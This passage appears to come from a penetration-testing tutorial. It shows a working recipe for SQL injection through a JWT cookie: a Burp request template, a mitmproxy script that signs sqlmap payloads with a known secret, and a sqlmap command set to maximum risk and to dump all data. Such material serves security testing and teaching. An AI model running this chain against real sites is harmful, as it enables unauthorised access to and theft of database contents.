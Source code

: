 #### 9.1. Burp request (Save item as `/tmp/req`)
```
GET / HTTP/1.1
Host: site.com:8080
Cookie: session=*
```
Note: `*` will be the injection point


#### 9.2. Mitmdump script (`/tmp/s.py`)
```python
#!/usr/bin/env python
import jwt # pip install pyjwt==0.4.3
from mitmproxy import http
import urllib

pk = "SOME_SECRET_KEY"

def request(flow: http.HTTPFlow) -> None:
    cookie = flow.request.headers['Cookie'].split('=')
    payload = urllib.parse.unquote(cookie[1])
    payload = urllib.parse.unquote_plus(payload)
    token = jwt.encode({'username':payload}, pk, algorithm='HS256').decode('utf-8')
    flow.request.headers['Cookie'] = cookie[0] + '=' + token
```
The script will take sqlmap injection payloads and place them in the `username` value of the JWT body.


#### 9.3. SQLmap with upstream to mitmproxy
```
$ mitmdump -s /tmp/s.py -p 8881
$ sqlmap -r /tmp/req --risk=3 --level=5 --dbms=sqlite \
--proxy='http://127.0.0.1:8881' --all
```
